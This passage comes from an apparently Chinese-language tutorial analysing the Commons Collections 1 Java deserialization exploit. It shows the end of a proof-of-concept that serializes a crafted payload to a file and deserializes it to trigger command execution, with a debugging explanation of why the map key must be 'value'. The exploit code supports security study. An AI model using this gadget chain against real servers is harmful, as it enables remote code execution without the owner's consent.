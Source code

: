 ```java
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Target.class,outerMap);
        //payload序列化写入文件，模拟网络传输
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(object);

        // 服务端反序列化客户端代码，触发漏洞
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        // 直接反序列化
        objectInputStream.readObject();
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_46_oIMg45Ae.png)

至此，我们在客户端构造了payload发送至服务端，
只要服务端

1. 对我们的输入进行反序列化
2. jdk版本为1.7

就可以直接完成命令执行
## 问题
为什么`innerMap.put("value", "value");`将key更改为其他值，就不能执行成功？(`innerMap.put("key", "value");`这种格式)
debug一下看看
在readObject中，`var3`是一个map结构，`var6` 会获取我们构造的map中的key值，然后通过key值取`var3`中的class，如果`var6`!=value，那么`var7`为空，不能进入if结构，导致不能进行setValue操作（也就是反序列化赋值操作），所以在这里需要将值固定为键值设置为`value`

![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_47_6gln3Jxy.png)


## 参考链接
[https://xz.aliyun.com/t/7031](https://xz.aliyun.com/t/7031)

